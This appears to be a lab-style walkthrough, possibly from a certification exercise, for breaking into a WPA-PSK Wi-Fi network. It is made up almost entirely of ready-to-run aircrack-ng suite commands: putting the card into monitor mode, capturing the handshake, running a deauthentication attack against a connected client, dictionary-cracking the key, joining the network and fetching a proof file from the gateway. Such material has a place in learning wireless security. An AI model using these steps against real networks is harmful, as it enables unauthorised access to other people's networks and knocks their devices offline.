 ### Step-1 Set interface to monitor mode
```bash
sudo airmon-ng start wlan0
```

### Step-2 Identify SSID and BSSID to attack

```bash
sudo airodump-ng wlan0mon
```

### Step-3 Start Capture
```bash
sudo airodump-ng -c 3 -w wpa --essid ESSID --bssid BSSID wlan0mon
```

### Step-4 Start Deauthentication Attack
```bash
sudo aireplay-ng -0 1 -a BSSID -c DMAC wlan0mon
```
### Step-5 Cracking
```bash
aircrack-ng -w /usr/share/john/password.lst -e ESSID -b BSSID wpa-01.cap
```

### Step-6 Turn off monitor mode
```bash
sudo airmon-ng stop wlan0mon
```

### Step-7 Create WPA supplicant conf and start
```bash
nano wpa_supplicant.conf
```
```
network={
ssid="\<ssid\>"
psk="\<password\>"
scan_ssid=1
key_mgmt=WPA-PSK
}
```
```bash
sudo wpa_supplicant -i wlan0 -c wpa_supplicant.conf -d
```

### Step-8 In new tab: pull IP via dhclient and get proof
```bash
sudo dhclient -v wlan0
curl http://192.168.1.1/proof.txt
```

